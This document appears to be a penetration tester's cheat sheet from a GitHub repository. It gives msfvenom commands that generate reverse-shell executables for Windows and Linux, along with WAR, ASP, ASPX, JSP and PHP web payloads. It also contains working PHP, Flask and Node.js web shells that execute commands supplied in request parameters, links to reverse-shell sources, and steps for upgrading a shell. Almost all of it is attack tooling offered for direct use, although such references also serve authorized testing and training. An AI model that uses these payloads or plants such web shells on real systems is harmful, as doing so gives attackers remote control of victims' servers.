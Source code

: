 # Shell and Some Payloads
## Payload Structure - msfvenom
-> A staged payload is usually shipped in two parts. The first part contains a small primary payload that will establish a connection, transferring a larger secondary payload with the rest of the shellcode.  
e.g.  
```
windows/shell_reverse_tcp (stageless)
windows/shell/reverse_tcp (staged)
linux/shell_reverse_tcp (stageless)
linux/shell/reverse_tcp (staged)
```

## Non-Meterpreter Binaries
### Windows
#### .exe x86 staged - msfvenom (Non-Meterpreter)
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

#### .exe x64 staged - msfvenom (Non-Meterpreter)
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### .exe x86 stageless - msfvenom (Non-Meterpreter)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

#### .exe x64 stageless - msfvenom (Non-Meterpreter)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

### Linux
#### .elf x86 staged - msfvenom (Non-Meterpreter)
```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### .elf x64 staged - msfvenom (Non-Meterpreter)
```bash
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### .elf x86 stageless - msfvenom (Non-Meterpreter)
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### .elf x64 stageless - msfvenom (Non-Meterpreter)
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Web Payloads
### Java WAR - msfvenom (Non-Meterpreter)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### ASP - msfvenom (Non-Meterpreter)
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

### ASPX - msfvenom (Non-Meterpreter)
```bash
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<LPORT> -f aspx > shell.aspx
```

### JSP - msfvenom (Non-Meterpreter)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### WAR - msfvenom (Non-Meterpreter)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### PHP - msfvenom (Non-Meterpreter) - Reverse Shell
```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
or  
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php  
- https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php

## Web Shells
### PHP 
```PHP
<?php echo shell_exec($_GET['cmd']);?>
<?php system($_GET['cmd']);?>
<?php echo exec($_GET['cmd']);?>
```

### JSP
- https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmdjsp.jsp  

or in kali
```bash
locate cmdjsp.jsp
```
### ASP
-  https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd-asp-5.1.asp  
- https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.asp  

or in kali
```bash
locate cmd-asp-5.1.asp
locate cmdasp.asp
```

### ASPX
- https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx  

or in kali
```bash
locate cmdasp.aspx
```

### Webshell Infecting views.py - Python (Flask)
```python
import os
from flask import Flask,request,os

app = Flask(__name__)
   
@app.route('/okay')
def cmd():
    return os.system(request.args.get('c'))

if __name__ == "__main__":
	app.run()
```
- https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.py

### Nodejs
```node
const express = require('express')
const app = express();

app.listen(3000, () => 
	console.log('...')
);
function Exec(command){ 
	const { execSync } = require("child_process");
	const stdout = execSync(command);
	return "Result: "+stdout
}
app.get('/okay/:command', (req, res) => 
res.send(Exec(req.params.command))
);
```
- https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.js

### Perl
-> Find and edit
```bash
locate perl-reverse-shell.pl
```

## Spawn tty via Python
```bash
python -c 'import pty;pty.spawn("/bin/bash")';
```

## Spawn an upgraded shell
```bash
export TERM=xterm && /usr/bin/script -qc /bin/bash /dev/null 
```
`ctrl + z`
```bash
stty raw -echo; fg 
```

### tools to make life easier
-> revshell generator  
- https://www.revshells.com/

-> CyberChef  
- https://gchq.github.io/CyberChef/

-> urlencoder  
- https://www.urlencoder.org/

-> octal  
- http://www.unit-conversion.info/texttools/octal/

-> hex  
- http://www.unit-conversion.info/texttools/octal/

-> IP converter  
https://www.silisoftware.com/tools/ipconverter.php
